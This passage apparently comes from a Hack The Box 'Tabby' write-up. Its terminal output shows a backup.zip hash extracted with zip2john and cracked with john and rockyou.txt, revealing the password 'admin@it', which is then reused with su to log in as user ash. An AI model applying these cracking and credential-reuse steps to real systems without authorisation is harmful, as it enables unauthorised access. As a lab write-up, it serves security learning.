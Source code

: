 ```
root@kali:/home/kali/htb/Tabby# zip2john backup.zip 
backup.zip/var/www/html/assets/ is not encrypted!
ver 1.0 backup.zip/var/www/html/assets/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/favicon.ico PKZIP Encr: 2b chk, TS_chk, cmplen=338, decmplen=766, crc=282B6DE2
ver 1.0 backup.zip/var/www/html/files/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/index.php PKZIP Encr: 2b chk, TS_chk, cmplen=3255, decmplen=14793, crc=285CC4D6
ver 1.0 efh 5455 efh 7875 backup.zip/var/www/html/logo.png PKZIP Encr: 2b chk, TS_chk, cmplen=2906, decmplen=2894, crc=2F9F45F
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/news.php PKZIP Encr: 2b chk, TS_chk, cmplen=114, decmplen=123, crc=5C67F19E
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/Readme.txt PKZIP Encr: 2b chk, TS_chk, cmplen=805, decmplen=1574, crc=32DB9CE3
backup.zip:$pkzip2$3*2*1*0*0*24*02f9*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*285c*5935*f422c178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5c67*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip2$::backup.zip:var/www/html/news.php, var/www/html/logo.png, var/www/html/index.php:backup.zip
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
root@kali:/home/kali/htb/Tabby# vim backup_hash
root@kali:/home/kali/htb/Tabby# john backup_hash -wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (backup.zip)
1g 0:00:00:00 DONE (2021-03-22 00:41) 1.052g/s 10908Kp/s 10908Kc/s 10908KC/s adnc153..adenabuck
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@kali:/home/kali/htb/Tabby# 

```

I don't find anything interesting after unzipping, so I try the password to log in as user ash.

```
tomcat@tabby:/tmp$ su ash
Password: 
ash@tabby:/tmp$ 
ash@tabby:/tmp$ 
ash@tabby:/tmp$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
ash@tabby:/tmp$ sudo -l
sudo: unable to open /run/sudo/ts/ash: Read-only file system
[sudo] password for ash: 
Sorry, user ash may not run sudo on tabby.
ash@tabby:/tmp$ 
```
